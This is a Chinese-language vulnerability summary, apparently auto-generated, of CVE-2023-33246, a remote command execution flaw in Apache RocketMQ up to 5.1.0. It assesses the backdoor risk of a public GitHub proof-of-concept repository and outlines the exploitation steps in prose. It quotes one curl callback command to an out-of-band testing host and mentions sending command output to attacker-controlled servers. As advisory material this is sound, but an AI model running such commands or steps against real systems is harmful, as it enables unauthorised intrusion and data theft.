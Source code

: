 ## CVE-2023-33246 Apache RocketMQ 远程代码执行

**漏洞编号:** CVE-2023-33246

**漏洞类型:** 远程代码执行

**影响应用:** Apache RocketMQ

**危害等级:** 高危，允许未经授权的远程代码执行

**影响版本:** <= 5.1.0

**利用条件:** RocketMQ Broker组件暴露在公网且未进行权限验证

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-33246 存在于 Apache RocketMQ 5.1.0 及更早版本中。由于 RocketMQ 的 NameServer、Broker 和 Controller 等组件暴露在公网上，且缺乏权限验证，攻击者可以利用 update configuration 功能，或通过伪造 RocketMQ 协议内容，以 RocketMQ 运行的系统用户身份执行任意命令。

**有效性：**

根据漏洞信息和搜索结果，该漏洞是一个已知的、被积极利用的远程代码执行漏洞。CISA 已将其添加到已知被利用的漏洞目录中。存在公开可用的PoC利用代码。

**投毒风险：**

PoC代码主要包含版本检测脚本（`RocketMQRceCheck`）和漏洞利用脚本（`RocketMQ_RCE_EXPLOIT`）。

*   版本检测脚本：用于检查目标 RocketMQ 服务的版本，判断是否存在漏洞。
*   漏洞利用脚本：通过发送恶意配置更新请求，或伪造 RocketMQ 协议，来执行任意命令。

README.md 文件中给出的利用方式是直接执行命令，例如 `curl chw9ft72vtc00002z5k0ge6rz7eyyyyyb.oast.fun/test`。这种利用方式本身不包含明显的投毒代码，但攻击者可以通过替换命令为恶意payload来达到投毒目的，例如下载并执行恶意脚本。另外检测脚本理论上也可以携带恶意payload，但可能性较低，因为check的目的是检查，携带恶意代码容易被发现。

考虑到代码仓库的作者可能会在利用脚本中嵌入后门，或使用隐蔽的方式执行恶意操作，因此存在一定的投毒风险，风险程度大约为10%。

**利用方式：**

1.  **组件暴露：**  攻击者首先需要确定目标 RocketMQ 的相关组件（如 Broker）暴露在公网上。
2.  **版本检测：**  攻击者可以使用 `RocketMQRceCheck` 脚本或其他方法来检测目标 RocketMQ 服务的版本，确认是否存在漏洞。
3.  **RCE利用：**
    *   **更新配置：** 攻击者可以利用 update configuration 功能，发送包含恶意命令的配置更新请求。  该命令将会被目标服务器执行。
    *   **协议伪造：** 攻击者还可以伪造 RocketMQ 协议内容，发送恶意请求到目标服务器，从而执行任意命令。通常命令执行的结果会通过外连的方式传回，例如利用curl命令将结果发送到攻击者控制的服务器上。
4.  **命令执行：**  成功利用漏洞后，攻击者可以以 RocketMQ 运行的系统用户身份执行任意命令，例如安装恶意软件、窃取敏感数据等。

**项目地址:** [MkJos/CVE-2023-33246_RocketMQ_RCE_EXP](https://github.com/MkJos/CVE-2023-33246_RocketMQ_RCE_EXP)

**漏洞详情:** [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246)
